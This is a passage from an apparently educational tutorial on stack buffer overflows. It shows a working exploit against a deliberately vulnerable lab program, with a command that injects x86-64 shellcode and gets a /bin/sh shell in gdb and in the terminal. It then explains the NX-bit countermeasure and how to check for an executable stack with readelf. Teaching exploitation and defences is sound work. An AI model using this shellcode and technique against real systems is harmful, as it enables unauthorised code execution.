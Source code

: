 > `environ` is on the stack before `argv`.

The shellcode starts after the b's and NUL, at 0x7fffffffef7f.

> Since the progam is compiled with debugging information (`-g`), `p argv` shows the *address of the address* to the command line arguments. You can view strings stored at the address with `x/`*N*`s *argv` or by using `p argv[`*N*`]`.

Exploiting in gdb using the correct address:

```bash
$ env - gdb bo_vuln2
(gdb) r `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\x7f"[::-1] + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
process 17211 is executing new program: /usr/bin/bash
sh-4.4$
```

And in the terminal:

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln2 `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\x7f"[::-1] + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
sh-4.4$
```

### Countermeasure 1: NX bit

The NX bit (no-execute) is a countermeasure that prevents execution of code on the stack. If a program's stack is *not* marked as executable, the exploits we've looked at so far will not work. On modern systems and processors, a non-executable stack is the default.

> No-execute has many names, including *data execution prevention* (DEP), *W^X* and *executable-space protection*.

In the previous section we compiled all our programs with `-zexecstack`. When gcc is given a `-z` followed by a keyword, both are passed directly to the linker. The `execstack` keyword "marks the object as requiring executable stack" (from `ld` manpage).

If we take the bo_vuln1 program from the previous section, and compile it again without the linker keyword, the exploit will stop working:

```bash
$ gcc bo_vuln1.c -fno-stack-protector -g -o bo_vuln1NX
$ ./bovuln1NX <EXPLOIT>
Segmentation fault (core dumped)
```

Since the stack is no longer executable, any attempt to execute code on the stack will fail. This is also true if we put the shellcode in an environment variable, as these are also on the stack.

If you want to know if a file has an executable stack, `readelf` can be of help:

```bash
$ readelf -l bo_vuln1NX | grep -A1 -i stack
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10
$ readelf -l bo_vuln1 | grep -A1 -i stack
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RWE    0x10
```
